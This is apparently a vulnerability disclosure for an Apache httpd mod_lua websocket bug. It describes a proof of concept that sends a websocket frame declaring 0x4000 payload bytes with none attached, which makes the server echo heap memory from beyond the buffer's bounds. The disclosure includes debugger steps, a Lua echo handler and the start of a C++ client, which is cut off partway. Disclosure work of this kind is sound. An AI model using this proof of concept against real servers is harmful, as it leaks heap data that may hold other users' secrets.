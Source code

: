 Attached is a POC that demonstrates the bug. It creates a TLS connection to httpd, asks to upgrade the connection to websocket, then sends a websocket frame that purports to transfer `0x4000` bytes of payload to `/bug126/bug126.lua` on httpd. However, the frame does not actually include any payload. The LUA program simply does a websocket upgrade, then reads and echoes whatever data it obtains. Because of the bug, what it obtains (and echoes to the POC program) is `0x4000` bytes of beyond-bounds heap.

Use the POC thusly:

   1. Enable LUA on an httpd server.
   2. Copy bug126.lua to bug126/bug126.lua on the httpd server.
   3. Edit |SERVER_NAME| in httpd_wsclient.cpp to contain the DNS name/IP address of the server.
   4. Edit the certificate file path on httpd_wsclient.cpp line 130 to something appropriate for the certs your httpd server uses.
   5. Edit the "host" header line on httpd_wsclient.cpp line 153 appropriately for your httpd server.
   6. Build httpd_wsclient.cpp against OpenSSL 1.1.x.
   7. Attach a debugger to httpd and set a BP on line 2233, above.
   8. Start httpd_wsclient and set a BP on line 179, on the |while (len > 0)| statement.
   9. Continue execution of httpd_wsclient.
   10. You will get several BPs on line 2233. Wait for the one with |len| == 0x4000.
   11. Now step through line 2235 and notice that it returns success.
   12. Step through line 2239 (success) and 2242 (success, |data_length| == 1...oh-oh!).
   13. Now step the memcpy() and watch it copy 0x4000-1 bytes of beyond-bounds heap into |buffer|.
   14. Let httpd proceed.
   15. Now you'll get a BP in httpd_wsclient. Check |len|, which probably will be 0x2000. Look at that many bytes off |recvBuf| and verify that they're data from httpd's heap.
   16. Step the |do| loop again to get another ~0x2000 bytes of httpd heap data.
```
-------- bug126.lua ----------------------------------------------------
function handle(r)
    if r:wsupgrade() then
        local data, isFinal = r:wsread();
        r:wswrite(data);
    end
end
-------- bug126.lua ----------------------------------------------------
```
```
-------- httpd_wsclient.cpp ----------------------------------------------------
#undef UNICODE

#define WIN32_LEAN_AND_MEAN
#define _CRT_SECURE_NO_WARNINGS

#include <windows.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>
#include <stdio.h>

#include "openssl\ssl.h"


#pragma comment (lib, "Ws2_32.lib")
#pragma warning (disable:6262)
constexpr char SERVER_NAME[] = "127.0.0.1";

void FillBuffer(
    const char *pInput,
    char *pOutput,
    size_t numOutputBytes) {

    char *pEnd = pOutput + numOutputBytes;
    size_t inlen = strlen(pInput);
    while (pOutput < pEnd) {
```
